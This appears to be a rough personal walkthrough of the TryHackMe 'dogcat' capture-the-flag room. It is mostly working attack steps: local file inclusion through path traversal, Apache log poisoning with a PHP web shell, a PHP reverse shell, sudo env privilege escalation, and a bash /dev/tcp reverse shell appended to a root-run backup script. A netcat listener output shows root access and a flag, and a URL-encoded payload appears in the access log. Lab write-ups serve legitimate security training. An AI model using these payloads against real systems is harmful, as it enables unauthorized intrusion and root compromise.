 2 ports open 22 and 80

apache 2.4.38

dirsearch nothing

nmap nothing

lfi

http://10.10.38.202/?view=php://filter/read=convert.base64-encode/resource=dog

http://10.10.38.202/?view=./dog/../../../../var/log/apache/error.log&ext

change error to access   ,,, also apache needs to be version 2  

http://10.10.38.202/?view=./dog/../../../../var/log/apache2/access.log&ext




looking at script ,, php ,, you have to put &ext at the end of lfi

log poisoning 

intercept and add command script to logs, 
```php
<?php system($_GET['c']); ?>
```

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

must go in header






escalated with sudo gtfo 

sudo env /bin/sh





then we need to make another shell, 




cd /opt
ls
backups
cd backups
ls
backup.sh
backup.tar

cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container

pwd
/opt/backups
ls
backup.sh
backup.tar
echo 'bash -i >& /dev/tcp/10.6.65.43/7263 0>&1' >> backup.sh


```bash
──(kali㉿kali)-[~]
└─$ nc -lvnp 7263
listening on [any] 7263 ...
connect to [10.6.65.43] from (UNKNOWN) [10.10.161.78] 55874
bash: cannot set terminal process group (13495): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4.txt
cat flag4.txt
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
root@dogcat:~# 
```














27.0.0.1 - - [10/May/2021:21:17:21 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
127.0.0.1 - - [10/May/2021:21:17:52 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
10.6.65.43 - - [10/May/2021:21:11:22 +0000] "GET /?view=./dog/../../../../var/log/apache2/access.log&ext=&c=%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%30%2e%36%2e%36%35%2e%34%33%22%2c%31%32%33%34%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27 HTTP/1.1" 200 78133 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
127.0.0.1 - - [10/May/2021:21:18:22 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
127.0.0.1 - - [10/May/2021:21:18:52 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
127.0.0.1 -